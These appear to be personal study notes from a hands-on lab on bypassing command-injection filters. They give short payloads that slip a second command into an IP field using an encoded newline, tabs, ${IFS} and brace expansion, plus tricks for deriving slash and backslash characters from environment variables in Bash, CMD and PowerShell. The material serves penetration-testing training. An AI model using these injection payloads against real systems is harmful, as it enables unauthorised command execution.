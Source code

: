 #### Only add the next character (which is a space) and see if it caused the denied request
![[Pasted image 20230207163644.png]]
The space character is indeed blacklisted as well. A space is a commonly blacklisted character, especially if the input should not contain any spaces, like an IP

#### Using Tabs
`%09`
![[Pasted image 20230207164531.png]]

#### Using $IFS
`${IFS}` --> `127.0.0.1%0a${IFS}`

#### Using Brace Expansion
`{ls,-la}`

***LAB*
![[Filter bypasses.png]]
`ip=10.10.16.13%0als${IFS}-la`

### Bypassing Blacklisted Characters - Linux
A commonly blacklisted character is the slash (`/`) or backslash (`\`) character

![[Pasted image 20230207171109.png]]

*Hint: The printenv command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.*

### Bypassing Blacklisted Characters - Windows
`echo` a Windows variable (`%HOMEPATH%` ->` \Users\htb-student`), and then specify a starting position (`~6` ->` \htb-student`), then specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`)

#### CMD Prompt
```cmd.exe
echo %HOMEPATH:~6,-11%

\
```

#### PowerShell
```PowerShell
$env:HOMEPATH[0]

\
```

```PowerShell
$env:PROGRAMFILES[10]
```
With PowerShell, a word is considered an array, so we have to specify the index of the character we need
